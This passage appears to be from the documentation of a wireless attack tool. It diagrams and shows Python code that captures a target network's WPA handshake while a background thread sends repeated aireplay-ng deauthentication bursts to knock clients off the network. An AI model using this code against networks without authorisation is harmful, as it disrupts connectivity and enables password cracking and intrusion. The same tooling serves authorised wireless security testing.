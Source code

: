 ### Process Flow

```mermaid
sequenceDiagram
    participant User
    participant Main
    participant Airodump
    participant DeauthThread
    participant Aireplay
    
    User->>Main: capture_handshake_with_deauth()
    Main->>Airodump: Start (--bssid, -c, -w)
    Main->>DeauthThread: Start thread
    DeauthThread->>Aireplay: Send deauth (--deauth 5)
    
    loop Every 5 seconds
        DeauthThread->>Aireplay: Send deauth packets
    end
    
    loop Monitor stdout
        Airodump-->>Main: Output lines
        Main->>Main: Check for "WPA handshake"
    end
    
    Main->>Main: Handshake detected!
    Main->>DeauthThread: Stop (clear event)
    Main->>Airodump: Terminate
    Main->>User: Return .cap file path
```

### Implementation Highlights

#### 1. Concurrent Process Management

```python
# Start airodump-ng for packet capture
airodump_process = subprocess.Popen(
    ["airodump-ng", "--bssid", bssid, "-c", channel, "-w", output_file, monitor_interface],
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    text=True,
    bufsize=1  # Line buffering for real-time output
)

# Start deauth in separate thread
def deauth_worker():
    while deauth_active.is_set():
        # Send deauth packets
        aireplay_process = subprocess.Popen(
            ["aireplay-ng", "--deauth", str(count), "-a", bssid, monitor_interface],
            ...
        )
        aireplay_process.wait(timeout=10)
        time.sleep(5)  # Wait before next cycle

deauth_thread = threading.Thread(target=deauth_worker, daemon=True)
deauth_thread.start()
```
